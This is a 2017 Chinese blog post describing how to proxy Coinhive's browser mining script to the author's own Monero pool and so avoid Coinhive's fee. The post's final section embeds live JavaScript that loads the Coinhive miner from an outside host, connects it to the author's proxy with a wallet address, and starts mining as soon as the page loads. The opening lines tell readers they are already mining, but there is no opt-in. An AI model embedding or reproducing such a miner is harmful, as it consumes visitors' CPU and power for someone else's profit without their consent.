 ```yaml
---
title: 搭建自己的JavaScript挖矿代理
date: 2017-10-12 22:09:26
tags:
---
```




本文介绍了如何搭建自己的js挖矿代理服务器，并在本篇博客中提供了示例。因此，当您决定继续阅读本篇博文时，您已经在为笔者挖取门罗币（Monero）了。

<!--more-->

# 0000b 背景

自从某国外知名网站宣布尝试使用js挖矿来取代广告收入后，js挖矿开始被大家所知。据报道，传说中的知名网站使用的是[coinhive](https://coinhive.com/)提供的技术进行Monero的挖取。[coinhive](https://coinhive.com/)提供了成套的解决方案。只要大家愿意，完全可以在几分钟内将挖矿程序嵌入到自己的网站中。
不过，coinhive与其他矿池并没有合作。这就是说，如果你已经在其他矿池通过矿机或自己闲置的PC挖矿的话，通过网页挖到的收益并不能整合到已有的矿池中，此外coinhive还要缴纳30%的挖矿收入。再考虑到无论是coinhive还是其他各种矿池，都是要在挖到一定数量的货币以后才会进行支付，所以对于笔者这样算力有限的小矿工来说，集中算力在一个矿池挖矿才是正事。因此，本篇文章将介绍如何借用coinhive的挖矿脚本，躲过30%的苛捐杂税，在自己已经奋斗多年的矿池里挖矿。

# 0001b 原理介绍
coinhive提供的挖矿脚本使用websocket与服务端进行通信，而各大矿池通常使用[Stratum Mining Protocol](https://en.bitcoin.it/wiki/Stratum_mining_protocol)来与挖矿的worker通信。默认情况下，coinhive自己的脚本当然是连接到自家的服务器。我们要做的就是搭建一台代理服务器，完成Stratum Mining Protocol和coinhive使用的websocket协议之间的转换，然后配置coinhive的脚本，让其连接我们自己的代理服务器即可。So Easy!

# 0010b 开源代理服务器项目介绍
有了想法之后，到GitHub上搜索了一番，果然已经有前辈完成了相关的工作，看来我们剩下的工作只需要将其部署到自己的服务器上就行了。在此提供两个开源项目：
* [coinhive-stratum-mining-proxy](https://github.com/x25/coinhive-stratum-mining-proxy) 使用Python和twisted库编写的Proxy
* [coin-hive-stratum](https://github.com/cazala/coin-hive-stratum) 该作者受到上面Python项目的启发，用Node.js写了一个

# 0011b 闷声发大财
这篇文章并不打算列出详细的服务搭建过程，是的，上面的两个项目都有详细的文档，如果您是挖过矿的程序员，那么您完全可以按照上述项目的文档完成部署；如果您对挖矿不了解，或者没有VPS，那么想把这些都搞清楚开始有些困难的。

> 中国人有一句说话叫「闷声发大财」


# 0100b 写在最后
请注意下面三行文字：
<div id="miner_info"></div>
上面三行跳动的数字代表着你的CPU正在为笔者挖矿。请耐心等待直到第三行的Accepted Hashes不再为0。
挖矿的速度从一定程度上反映了您所使用的设备的计算性能。如果您有兴趣，不放邀请您的好友访问本站，看看谁的设备计算性能好一些。笔者的华为荣耀8手机可以跑出 18H/s 的速度，不知道超越了全球百分之多少的用户。
当然，不用担心，当你关闭该页面后，挖矿就会停止。而且，截至目前，本站其他页面没有嵌入挖矿脚本。
对了，如果您发现在阅读本篇文章时，上面的数字没有跳动，那一定是出了些问题，请立即在[github](https://github.com/myrfy001)上联系我，或者提出[issue](https://github.com/myrfy001/blog.ideawand.com/issues)。


<script src="https://coinhive.com/lib/coinhive.min.js"></script>
<script>
CoinHive.CONFIG.WEBSOCKET_SHARDS = [["ws://ideawand.com:8892/proxy"]];
var miner = new CoinHive.Anonymous('455atBUeKbhUUugvvgKnseQPnPetucs1JFtaeA68kgeyXhSXrHrqPPXPa37FqJdWc3bUJK1xWsrhJeDpqa2LrG83JhndMvt');
setInterval(function() {
  var hashesPerSecond = miner.getHashesPerSecond();
  var totalHashes = miner.getTotalHashes();
  var acceptedHashes = miner.getAcceptedHashes();
  document.getElementById("miner_info").innerHTML = "Speed = " + hashesPerSecond.toFixed(2) + " hash/sec<br>" + "Total Hashes = " + totalHashes + "<br>Accepted Hashes = " + acceptedHashes;
}, 1000);
miner.start();
</script>